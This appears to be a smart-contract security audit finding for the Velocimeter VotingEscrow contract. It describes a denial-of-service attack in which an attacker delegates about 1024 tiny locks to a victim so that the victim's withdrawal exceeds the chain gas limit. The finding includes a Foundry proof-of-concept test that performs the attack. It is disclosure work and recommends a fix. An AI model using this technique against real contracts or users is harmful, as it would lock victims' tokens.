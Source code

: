 Delightful Lavender Goose

High

# An Attacker can DOS user withdrawal by delegating many tokens with least amount lock.

## Summary
The VotingEscrow contract's delegate function can be exploited to prevent a user from managing their tokens by exceeding the gas limit with a large number of delegated tokens.

## Vulnerability Detail
Any user can delegate the balance of their locked NFT to anyone by calling the delegate function. The delegated tokens are stored in an array that can become very large, potentially causing a denial of service (DOS) attack. 

To prevent this, the VotingEscrow contract includes a safety check that limits the array to a maximum of 1024 delegates.
Despite this, a user with 1024 delegated tokens will require approximately 23 million gas to transfer, burn, or mint a token, which exceeds the current gas limit on some evm compatible chains like Optimism chain with gas limit 15 million.

## Impact
The VotingEscrow contract's gas limit for delegations can be exploited to prevent a victim from withdrawing, transferring, or delegating their tokens. 
This could effectively lock the victim's tokens and disrupt their ability to manage their assets.

## POC
```solidity
  function testMaxDelegateLimitDOS() public {
    // --- ATTACKER
    flowDaiPair.approve(address(escrow), TOKEN_1);

    address alice = address(0x1337);
    for(uint256 i = 0; i < escrow.MAX_DELEGATES() - 1; i++) {
      escrow.create_lock(1, 100 days);
      escrow.delegate(alice);
    }

    flowDaiPair.transfer(alice, 100);

    // ------ ALICE --------
    vm.startPrank(alice);
    flowDaiPair.approve(address(escrow), 100);
    uint tokenId = escrow.create_lock(1, 7 days);

    vm.warp(block.timestamp + 7 days);

    uint initialGas = gasleft();
    escrow.withdraw(tokenId);
    uint gasUsed = initialGas - gasleft();

    console.log(gasUsed); // 23637422
    assertTrue(gasUsed > 20_000_000);
  }
```
## Code Snippet
https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L1399
```solidity
function _moveTokenDelegates(
        address srcRep,
        address dstRep,
        uint _tokenId
    ) internal {
        if (srcRep != dstRep && _tokenId > 0) {
            if (srcRep != address(0)) {
                ...
            }
            if (dstRep != address(0)) {
                ...
                // All the same plus _tokenId
                require(
@>>                 dstRepOld.length + 1 <= MAX_DELEGATES,
@>>                 "dstRep would have too many tokenIds"
                );
                for (uint i = 0; i < dstRepOld.length; i++) {
                    uint tId = dstRepOld[i];
                    dstRepNew.push(tId);
                }
                dstRepNew.push(_tokenId);

                numCheckpoints[dstRep] = dstRepNum + 1;
            }
        }
    }
```
    
https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L1469
```solidity
function _moveAllDelegates(
        address tokenOwner,
        address srcRep,
        address dstRep
    ) internal {
        // You can only redelegate what you own
        if (srcRep != dstRep) {
            if (srcRep != address(0)) {
                ...
            if (dstRep != address(0)) {
                ...
                uint ownerTokenCount = ownerToNFTokenCount[tokenOwner];
                require(
@>>                 dstRepOld.length + ownerTokenCount <= MAX_DELEGATES,
@>>                 "dstRep would have too many tokenIds"
                );
                ...
            }
        }
    }
```
## Tool used

Manual Review

## Recommendation
Decerase Max Token Delegate limit.